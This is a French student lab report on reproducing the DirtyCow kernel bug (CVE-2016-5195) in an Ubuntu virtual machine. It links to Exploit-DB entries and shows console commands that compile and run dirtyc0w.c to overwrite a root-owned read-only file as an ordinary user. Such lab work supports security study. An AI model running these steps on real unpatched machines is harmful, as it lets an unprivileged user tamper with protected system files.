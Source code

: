 # Rapport Exercice 1 SLB

## Auteurs

- Harun Ouweis
- Rayburn Nathan
- Mouti Amir

## Objectif

L'objectif de cet exercice est de démontrer la vulnérabilité DirtyCow (CVE-2016-5195) sur une machine virtuelle Ubuntu. Nous allons explorer les exploits disponibles, tester leur exécution, et documenter les résultats à l'aide de captures d'écran avec explications détaillées. Ce travail vise à renforcer notre compréhension des failles de sécurité bas niveau et des mesures d'exploitation correspondantes.

## Livrables

1. **URL de la CVE liée à DirtyCow :**
   - [CVE-2016-5195 - DirtyCow (Mitre)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-5195)

   - [CVE-2016-5195 - DirtyCow (Exploit DB)](https://www.exploit-db.com/search?cve=2016-5195)

2. **URLs des exploits sur Exploit-DB :**
   - [Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40839)
   - [Dirty COW /proc/self/mem' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40847)
   - [Dirty COW PTRACE_POKEDATA' Race Condition (Write Access Method)](https://www.exploit-db.com/exploits/40838)
   - [Dirty COW /proc/self/mem' Race Condition Privilege Escalation (SUID Method)](https://www.exploit-db.com/exploits/40616)
   - [Dirty COW' /proc/self/mem Race Condition (Write Access Method)](https://www.exploit-db.com/exploits/40611)

3. **Procédure de production et d'exécution de l'exploit :**
   - **Étape 1 : Téléchargement de l'exploit**
     - Le code source de l'exploit a été téléchargé depuis Exploit-DB et enregistré sur la machine virtuelle.
   - **Étape 2: Suivre les commandes de la console ci-dessous**

### Étape 2
Open a new console and connect to root. 

**Create a file with only root access and set the correct rights.**
```bash
$ sudo -s                        # change to root user
$ echo this is not a test > foo  # create file + content            
$ chmod 0404 foo                 # change file rights
$ ls -lah foo                    # display root access rights 
-r-----r-- 1 root root 19 Sep 24 14:32 foo
$ cat foo                        # Check content
this is not a test               
```

Open a new console as a normal user.

**Run the DirtyC0w exploit**
```bash
$ gcc -pthread dirtyc0w.c -o dirtyc0w # compile the .c file into a binary executable
$ ./dirtyc0w foo m00000000000000000   # execute the exploit with dest file and what we want to put inside it.
mmap 56123000
madvise 0
procselfmem 1800000000
$ cat foo                              # display the content
m00000000000000000
```

![alt text](image.png)

## Conclusion


